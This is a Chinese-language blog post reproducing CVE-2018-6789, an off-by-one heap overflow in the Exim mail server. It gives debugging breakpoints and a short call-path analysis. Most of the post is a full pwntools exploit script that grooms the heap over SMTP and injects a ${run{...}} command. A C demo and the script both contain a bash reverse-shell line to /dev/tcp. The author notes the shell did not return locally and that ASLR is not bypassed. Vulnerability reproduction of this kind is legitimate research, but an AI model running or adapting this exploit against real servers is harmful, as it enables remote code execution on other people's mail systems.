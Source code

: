 ```yaml
---
layout: post
title:  "CVE-2018-6789：Exim Off-by-One漏洞复现分析"
date:   2018-04-09 11:30:00
categories: 漏洞分析
tags: [pwn]
---
```


<!-- more -->

### 分析环境


系统环境：Linux kali 4.13.0-kali1-amd64 #1 SMP Debian 4.13.13-1kali1 (2017-11-17) x86_64 GNU/Linux

编译环境：ldd (Debian GLIBC 2.25-3) 2.25

分析版本：

```
$ git clone https://github.com/Exim/exim.git
$ git checkout ef9da2ee969c27824fcd5aed6a59ac4cd217587b
```

调试时下的断点：

```
b check_helo
b b64decode
b base64.c:214
b smtp_in.c:4746
b smtp_in.c:4993
b expand_string_internal at expand.c:5006 
b child_open_uid at child.c:395 
```

### 漏洞分析

关于漏洞的分析见参考文章，里面写的很详细了，本文主要是对复现过程进行记录。

由于编写的exp无法弹回shell，所以对命令执行的地方进行了跟踪：

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/2.jpg)

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/3.jpg)

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/4.jpg)

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/6.jpg)

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/7.jpg)

路径为：acl_check->acl_check_internal->expand_string->child_open->execv

最后会fork一个子进程来执行execv，类似下面的demo：

```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

int main()
{
    char *argv[10] = {0};
    argv[0] = "/bin/bash";
    argv[1] = "-c";
    argv[2] = "/bin/bash -i &> /dev/tcp/127.0.0.1/1234 0>&1";
    execv(argv[0],argv);
    return 0;
}

```

### exp 代码

```
from pwn import *
import time

def EHLO(r,hostname):  
    time.sleep(1)
    r.sendline("EHLO "+hostname)
    r.recvline()

def Sendline(r,info):
    time.sleep(1)
    r.sendline(info)
    r.recvline()

def AUTH(r,info):
    time.sleep(1)
    r.sendline("AUTH CRAM-MD5")
    r.recvline()
    time.sleep(1)
    r.sendline(info)
    r.recvline()

if __name__=='__main__':
    r = remote('localhost',25)
    command = "/bin/bash -c '/bin/bash -i &> /dev/tcp/127.0.0.1/1234 0>&1'"
   
#Step 1：进行内存布局

    Sendline(r,'\x7f'*4102) 
    #通过unrecognized command来获取一个0x4041的堆块

    EHLO(r,'c'*0x2010) 
    #通过sender_host_name 申请一个0x2021的堆块，同时释放上面0x4041的堆块

#Step 2：将位于底部的0x2021的堆块移到中间

    Sendline(r,'\x7f'*0x800) 
    #通过unrecognized command占用顶部0x2020的chunk

    EHLO(r,'c'*(0x2000-9)) 
    #使用EHLO释放之前的sender_host_name，然后重新设置，让sender_host_name位于0x6060大小chunk的中部

#Step 3：触发off by one漏洞

    payload1 = "HfHf"*0xaae

    AUTH(r,payload1[:-1]) 
    #将中间chunk的size由0x2021变成0x20f1

#Step 4:构造在第三块chunk中构造一个fake chunk

    payload = p64(0x1f31)+p64(0x20f0)
    payload1 = base64.b64encode(payload*484).replace("\n","")
    AUTH(r,payload1) 
    #绕过free检查，表明中间chunk的size是正确的

#Step 5:通过释放sender_host_name，把一个原本0x2000的chunk扩展成0x20f0, 但是却不触发smtp_reset

    time.sleep(1)
    EHLO(r,'a+')

#Step 6: 修改storeblock的next指针为储存acl_check_rcpt字符串的堆块地址（我的环境只有rcpt和data命令可用）

    time.sleep(1)
    payload = 'd'*(0x2000-0x20)
    address = 0x5582f18dd9a0 
    #包含acl_check_rcpt字符串的堆起始地址+0x10

    payload = base64.b64encode(payload+p64(0x2021)+p64(0x2021)+p64(address)+p64(0x2000)+p64(0x2000))
    #next指针后还要对chunk的size赋值，不然之后在free的时候会检查size大小，导致失败

    AUTH(r,payload)

#Step 7: 调用smtp_reset ->储存acl_check_rcpt字符串的堆块被释放丢入unsorted_bin

    EHLO(r,"crashed")

    time.sleep(1)

#Step 8:重新申请0x2020的堆块来覆盖acl_check_rcpt为要执行的命令（我的环境还多了一个0x2020的unsorted_bin，所以申请了两次，在第二次进行覆盖）

    payload = 'e'*0x2000 
    payload = base64.b64encode(payload)
    AUTH(r,payload)

    time.sleep(1)
    payload = 'f'*300+'\x20'+'f'*27 
    #对AUTH有空格判断，如果有空格就变成'0x00'，只会进行一次判断，所以在命令前还要加个空格，不然命令里的空格会被变成'0x00'导致失败。

    command = "${run{" + command + "}}\x00"
    payload += command
    payload += 'f'*(175-len(command)) + "/root/bin-tree/exim/var/spool/exim/log/%slog\x00" 
    #由于第一次覆盖把日志文件的名字覆盖了，又重新写入

    payload += 'f'*(0x2000-len(payload))
    payload = base64.b64encode(payload)
    AUTH(r,payload)

#Step9: 触发acl_check_rcpt检查

    time.sleep(1)

    Sendline(r,"mail from: <pluskid@zju.edu.cn>")

    time.sleep(1)

    Sendline(r,"RCPT TO: <pluskid@mstczju.org>")

    r.interactive()

```

不知道是不是我环境的原因，感觉比网上的文章描述的多了好多坑。。。

### 攻击效果

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/1.jpg)

最后攻击效果虽然在进程里起了bash，但是并没有弹回来shell，应该和我本地的环境有关，touch命令倒是执行成功了，调试发现，起了bash后，exim进程又把它kill了，很奇怪。

该exp也没有对随机化进行绕过，网上公开的资料都是对地址进行爆破。

### 参考链接

https://paper.seebug.org/469/

https://devco.re/blog/2018/03/06/exim-off-by-one-RCE-exploiting-CVE-2018-6789-en/

https://github.com/skysider/VulnPOC/blob/master/CVE-2018-6789/exp.py

